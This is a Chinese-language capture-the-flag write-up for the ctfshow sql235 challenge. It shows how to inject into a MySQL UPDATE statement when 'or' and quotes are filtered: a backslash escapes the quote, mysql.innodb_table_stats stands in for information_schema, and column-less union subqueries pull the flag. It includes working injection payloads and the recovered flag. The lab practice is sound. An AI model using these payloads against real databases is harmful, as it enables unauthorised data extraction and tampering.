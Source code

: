 # ctfshow-sql235



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
```



 返回逻辑 

```
  //过滤 or ' 

```





```mysql
过滤or '因此information表也不能用了
考虑其他表sys也没有
ban了or，其实还暗ban了information_schema，可以拿innoDB引擎来绕过，即这个mysql.innodb_table_stats

https://www.jb51.net/article/134678.htm  统计信息表
https://zhuanlan.zhihu.com/p/98206699 无列名注入
https://blog.csdn.net/qq_45521281/article/details/106647880    information_schema与无列名注入


innodb_table_stats是表的统计信息，innodb_index_stats是索引的统计信息，各字段含义如下
innodb_table_stats
database_name  		数据库名
table_name			表名
last_update			统计信息最后一次更新时间
n_rows				表的行数
clustered_index_size	聚集索引的页的数量
sum_of_other_index_sizes	其他索引的页的数量

innodb_index_stats
database_name		数据库名
table_name			表名
index_name			索引名
last_update			统计信息最后一次更新时间
stat_name			统计信息名
stat_value			统计信息的值
sample_size			采样大小
stat_description		类型说明




原来的语句是
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
但是传入单引号后
$sql = "update ctfshow_user set pass = '\' where username = 'username';";
这样pass里面的内容就是' where username =,接下来username里面的参数就是可以控制的了


mysql中不支持子查询更新，准确的说是更新的表不能在set和where中用于子查询。那串英文错误提示就是说，不能先select出同一表中的某些值，再update这个表(在同一语句中)。
update 同一个表注入方法
https://www.cnblogs.com/duanxz/p/5099030.html

# username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())-- - &password=\

banlist,ctfshow_user,flag23a1


# username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)-- - &password=\
找b 假如第一个是id,第二个是flag那么就可以直接查flag
例如上一题字段id,flagass23s3,info

ctfshow{f6ed0142-b4c3-481c-a327-ac8bcd8b726e}


或者一样的没区别只是如果没过率数字可以这样玩
# username=,username=(select `2` from(select 1,2,3 union select * from flag23a1 limit 1,1)a)-- - &password=\



```























